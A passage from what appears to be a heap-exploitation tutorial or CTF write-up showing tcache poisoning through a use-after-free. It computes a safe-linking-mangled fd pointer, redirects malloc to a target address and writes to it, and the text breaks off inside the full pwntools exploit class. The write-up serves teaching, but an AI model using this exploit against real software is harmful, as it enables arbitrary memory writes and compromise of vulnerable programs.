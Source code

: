 We will use a use-after-free vulnerability to overwrite the `fd/next` pointer of the last chunk in the `tcache` bins : `0x4052c0` which is `b` in our exploit code.

Now lets create our fake `fd/next` pointer.

We need to shift the chunk address by 12 bits and then `XOR` that to our target address (`users.target`).

```python
fake_next_ptr = (target ^ (b >> 12))
```

Now we use our use-after-free to overwrite the `fd/next` pointer of the chunk b `0x4052c0`:

```python
t.scanf(1, p64(fake_next_ptr))
# index 1 = b : 0x4052c0
```

We can see in the image below that now the `tcache` bins contain our target address.

![Tcache bin](/assets/images/pwn/tcache/tcache_c.png)

Target Memory Location: `0x404090`

- Before corruption: `0x4052c0 -> 0x4052a0`
- After corruption: `0x4052c0 -> 0x404090`

The next call to `malloc` of the same size will return the chunk `b` : `0x4052c0`, then the next one will return our target memory location.

```python
c = t.malloc(size) # 2
d = t.malloc(size) # 3
```

`d` is our target memory location.

Now we can write to our target.

```python
t.scanf(3, b"pwned")
```

Full exploit code

```python
class Tcache:
	def __init__(self):
		self.c = b">> "
		self.count = 0

	def malloc(self, size:int):
		log.info(f"Allocating chunk {self.count}")
		sla(self.c, b'1')
		sla(b'size: ', str(size).encode())
		ru(b"0x")
		leak = int(rl(), 16)
		print_leak("leak ", leak)
		self.count += 1
		return leak

	def free(self, index:int):
		log.info(f"Now Freeing chunk {index}")
		sla(self.c, b'3')
```